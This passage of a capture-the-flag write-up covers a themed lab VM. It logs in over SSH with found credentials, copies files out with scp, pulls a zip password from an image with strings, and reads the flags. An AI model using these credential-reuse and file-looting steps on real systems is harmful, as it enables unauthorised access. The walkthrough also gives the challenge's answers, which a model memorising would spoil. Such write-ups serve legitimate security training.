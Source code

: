 ## Exploitation 
### Access via SSH
I logged via ssh with the user **Summer** and password **winter**, and in her home directory I found the 10pts flag, this adds up to 60pts.

```bash
root@kali:~$ ssh Summer@192.168.179.148 -p 22222
Summer@192.168.179.148's password: 
Last login: Wed Aug 23 19:20:29 2017 from 192.168.56.104
[Summer@localhost ~]$ id
uid=1002(Summer) gid=1002(Summer) groups=1002(Summer) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[Summer@localhost ~]$ ls
FLAG.txt
[Summer@localhost ~]$ less FLAG.txt 
FLAG{Get off the high road Summer!} - 10 Points
```

In the Morty's home directory I found an image and a zip file, downloaded via scp.

```bash
root@kali:~$ scp -P 22222 Summer@192.168.179.148:"/home/Morty/{journal.txt.zip,Safe_Password.jpg}" .
Summer@192.168.179.148's password: 
journal.txt.zip                                                                           100%  414    29.4KB/s   00:00
Safe_Password.jpg                                                                         100%   42KB   1.1MB/s   00:00
```

Analyzing the image with the strings command I found the **Meeseek** password.

```bash
root@kali:~$ strings Safe_Password.jpg | head -5
JFIF
Exif
8 The Safe Password: File: /home/Morty/journal.txt.zip. Password: Meeseek
8BIM
8BIM
```

Then I unzip the **journal.txt.zip** file with the password found, in the text we see something about a password for safe, and the 20pts flag, this adds up to 80pts.

```bash
root@kali:~$ unzip journal.txt.zip              
Archive:  journal.txt.zip
[journal.txt.zip] journal.txt password: 
  inflating: journal.txt
  root@kali:~$ cat journal.txt
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points
```
